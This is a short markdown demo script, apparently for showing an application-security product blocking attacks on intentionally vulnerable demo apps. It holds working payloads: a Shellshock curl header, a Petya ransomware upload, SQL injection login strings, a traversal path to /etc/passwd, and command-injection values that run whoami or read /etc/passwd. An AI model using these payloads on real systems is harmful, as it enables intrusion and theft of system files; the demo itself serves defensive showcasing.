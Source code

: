# Application Security

- [Application Security](#application-security)
  - [Demoing w/ Uploader](#demoing-w-uploader)
    - [Shellshock](#shellshock)
    - [Petya](#petya)
  - [Demoing w/ InSekureStore](#demoing-w-insekurestore)
    - [SQL Injection](#sql-injection)
      - [Directory Traversal](#directory-traversal)
      - [Remote Command Execution](#remote-command-execution)

## Demoing w/ Uploader

**Before - Reactivate InSekureStore and Uploader**

### Shellshock

Open a terminal window and paste in the following (ShellShock) exploit:

```shell
curl -H "User-Agent: () { :; }; /bin/eject" http://demoapp3-108-129-65-162.nip.io/
```

*Application Security Protection by `Malicious Payload`*

### Petya

Upload: `Petya.bin`

*Application Security Protection by `Malicious File Upload`*

## Demoing w/ InSekureStore

### SQL Injection

At the login screen

```text
E-Mail: 1'or'1'='1
```

```text
Password: 1'or'1'='1
```

*Application Security Protection by `SQL Injection - Always True`*

#### Directory Traversal

URL

```url
...dev#/browser?view=../../../etc/passwd
```

#### Remote Command Execution

Go to `Mime Type Params` and change to

```text
-b && whoami
```

or

```text
-b && uname -a
```

or

```text
-b && cat ./../../etc/passwd
```

Within the details of a text file you will see the output of your command.

*Application Security Protection by `Remote Command Execution`*
